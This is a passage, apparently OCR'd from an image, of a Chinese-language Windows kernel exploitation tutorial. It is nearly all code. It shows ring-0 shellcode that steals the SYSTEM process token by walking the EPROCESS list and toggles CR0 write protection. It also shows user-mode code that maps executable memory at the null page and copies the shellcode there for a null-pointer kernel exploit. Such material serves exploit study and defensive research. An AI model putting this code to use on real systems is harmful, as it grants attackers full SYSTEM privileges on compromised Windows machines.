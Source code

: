 ```c
		mov esi, [eax + 0x220] // eax = PEPROCESS of the process, to which the current thread belongs
		mov eax, esi
searchXp:
		mov eax, [eax + 0x88]
		sub eax, 0x88 // eax = PEPROCESS of the next process in process-list
		mov edx, [eax + 0x84] // edx = PID
		cmp edx, 0x4 // use PID to find the System process
		jne searchXp
		mov eax, [eax + 0xc8] // eax = token of SYSTEM process
		mov [esi + 0xc8], eax // change token of current process
	}
	// [content] end
	// 开启写保护
	__asm
	{
		sti;
		mov eax, cr0;
		or eax,0x00010000; 
		mov cr0, eax; 
	}
	g_isRing0ShellcodeCalled = 1;
	return 0;
}
```

### 3 写入Ring0 Shellcode

```c
	// 在本进程空间申请0地址内存
	ShellCodeAddress = (PVOID)sizeof(ULONG);
	NtStatus = NtAllocateVirtualMemory(
		NtCurrentProcess(),      // ProcessHandle
		&ShellCodeAddress,       // BaseAddress
		0,                       // ZeroBits
		&ShellCodeSize,          // AllocationSize
		MEM_RESERVE | 
		MEM_COMMIT |
		MEM_TOP_DOWN,            // AllocationType
		PAGE_EXECUTE_READWRITE); // Protect
	if(NtStatus){
		printf("NtAllocateVirtualMemory failed! NtStatus=%.8X\n", NtStatus);    
		goto ret;
	}
	printf("NtAllocateVirtualMemory succeed! ShellCodeAddress=%p\n", ShellCodeAddress); 
	// 复制Ring0ShellCode到0地址内存中
	RtlMoveMemory(
		ShellCodeAddress,
		(PVOID)Ring0ShellCode,
		ShellCodeSize);
```

